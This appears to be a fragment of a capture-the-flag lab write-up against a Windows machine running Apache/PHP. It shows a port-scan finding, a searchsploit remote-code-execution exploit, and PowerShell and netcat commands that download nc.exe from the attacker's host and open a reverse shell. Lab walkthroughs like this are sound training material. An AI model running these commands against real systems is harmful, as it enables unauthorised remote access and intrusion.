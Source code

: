### Findings
#### Open Ports
``` {.python .numberLines}
8080/tcp   http         Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
```

\newpage
## Phase #2: Exploitation
1\. We use `searchsploit` to find exploits for the webapp and find an unauthenticated remote code execution vulnerability. We inspect the exploit and upon executing it, we get a pseudo-interactive shell on the target machine:  
``` {.python .numberLines}
python 48506.py http://10.10.10.198:8080/

```

![writeup.exploitation.steps.1.1](./screenshot03.png)  

![writeup.exploitation.steps.1.2](./screenshot04.png)  

2\. To get a fully interactive shell, we use powershell to transfer netcat binary, start a local netcat listener and then catch the incoming connection:  
``` {.python .numberLines}
nc -nlvp 4433

powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.8:8000/nc.exe','C:\Users\shaun\Desktop\nc.exe')"
C:\Users\shaun\Desktop\nc.exe 10.10.14.8 4433 -e cmd.exe

```
